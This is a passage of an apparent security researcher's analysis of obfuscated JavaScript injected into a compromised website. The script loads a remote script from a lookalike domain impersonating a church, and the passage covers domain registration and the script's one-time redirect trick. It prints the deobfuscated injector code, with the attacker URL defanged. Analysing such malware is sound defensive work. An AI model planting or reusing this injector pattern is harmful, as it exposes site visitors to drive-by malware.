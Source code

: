 ```javascript

// 1. Create a <script> element
// 2. Set the element's "async" attribute to "true"
// 3. Set the element's "src" attribute to "hxxps[://]training[.]c1ypsilanti[.]org/report?r=dj01MDY1NDg3MTIwZTU2ZmQ1ZTZlNCZjaWQ9MjY0"
// 4. Get all elements with the tag "<script>"
// 5. Insert the newly created element above that
var script_str = deobfuscate_str("usvcxrqizpktc") /* script */;
var script_elem = document.createElement(script_str);
script_elem.async = true;
script_elem.src = deobfuscate_str("shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u") /* hxxps[://]training[.]c1ypsilanti[.]org/report?r=dj01MDY1NDg3MTIwZTU2ZmQ1ZTZlNCZjaWQ9MjY0 */;
var script_elem_ = document.getElementsByTagName(script_str)[0];
script_elem_.parentNode.insertBefore(script_elem, script_elem_);
```

I tried visiting the site, and nothing appeard. I am able to consistently trigger the `<script>` element, but the webserver isn't returning anything new for me. Their webserver must be doing some sort of filtering based on referrer, or potentially using the Base64-encoded parameter as a nonce. To rule out any IP-based filtering, I downloaded a VPN to see if I get a "new IP" and try from there. Unfortunately, I got the `<script>` tag added again, but still no response. 

I ran their site through [VirusTotal](https://www.virustotal.com/gui/url/4023d8e5092e1f3ecb943e1d8d8e6a7c907bfb51243d43d874a6f48decd35aeb/details), which returned with two hits (Avira and Kaspersky both claiming the site hosts Malware); all other scanners labelled this clean. Unsurprising, this domain was registered with privacy settings through FastDomain. It was registered on 02/01/2022, last updated on 06/14/2022.

I went to the parent domain, and it's masquerading as a WordPress site that's "Coming Soon". Interestingly enough, the title is "Church One Ypsilanti", of which, there is a real one! However, their domain is `https://churchoneypsilanti.org/`. The email associated with the church's FaceBook page is `c1ypsilanti[@]gmail[.]com` which is the same spelling as the masqueraded domain.

The entire situation is pretty weird; typically, if this were just adware, they wouldn't care about serving the same client twice. That just means double the chances of landing a victim. However, there was a semi-professional attempt at preventing serving the same client multiple times for this domain. Let's take a step back and look at some facts:

 - There is a church in Ypsilanti, MI called "Church One Ypsilanti", with a domain of `churchoneypsilanti.org` and email of `c1ypsilanti@gmail.com`
 - Someone registered a domain `c1ypsilanti[.]org`, which is the valid __email__ of the Church One Ypsilanti team
 - They aged the domain for about half a year
 - The root domain hosts a legitimate looking "Coming Soon" WordPress site
 - Someone infected a website, `weddingrule[.]org` to serve an infected JavaScript blob
 - This JavaScript blob is obfuscated
 - The JavaScript blob only redirects to the malicious domain if it hasn't done that in the past (it will add a `__utma` key in your local storage)
 - Even after manually removing traces of the `__utma` key, and trying to re-trigger the malicious site's content, the malicious site only returns an empty page.

 This is all pretty odd...
